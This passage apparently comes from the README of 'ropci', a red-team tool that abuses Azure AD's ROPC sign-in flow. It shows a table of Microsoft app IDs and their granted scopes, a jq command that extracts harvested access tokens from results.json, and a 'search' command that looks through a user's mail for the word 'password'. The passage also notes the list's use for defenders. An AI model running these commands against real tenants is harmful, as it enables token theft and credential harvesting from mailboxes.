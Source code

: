 ```
|                                          |                                      |         | Group.ReadWrite.All               |
|                                          |                                      |         | InformationProtectionPolicy.Read  |
|                                          |                                      |         | OnlineMeetings.Read People.Read   |
|                                          |                                      |         | SensitiveInfoType.Detect          |
|                                          |                                      |         | SensitiveInfoType.Read.All        |
|                                          |                                      |         | SensitivityLabel.Evaluate         |
|                                          |                                      |         | User.Invite.All User.Read         |
|                                          |                                      |         | User.ReadBasic.All                |
| Service                                  |                                      |         |                                   |
| PushChannel                              | 4747d38e-36c5-4bc3-979b-b0ef74df54d1 | error   |                                   |
| Microsoft.MileIQ                         | a25dbca8-4e60-48e5-80a2-0664fdb5c9b6 | success | profile openid email              |
|                                          |                                      |         | user_impersonation                |
| Storage Resource Provider                | a6aa9161-5291-40bb-8c5c-923b567bee3b | error   |                                   |
...
+------------------------------------------+--------------------------------------+---------+-----------------------------------+

Done. 
You could now run the following command to analyze valid tokens and there scopes:
$ cat results.json | jq -r 'select (.access_token!="") | [.display_name,.scope] | @csv'
Happy Hacking.
```

This gives you an idea which applications support ROPC and what permissions they have that an adversary could abuse. 
The result file will already contain the retrieved `access_tokens` from each app.

It's also a good list for the IT admins and blue team to monitor and lock down.



## Search the user's mail messages

By default the following searches for the word `password`:

```
./ropci search
```

But you can specify a custom query with `-q`. Here is an example:
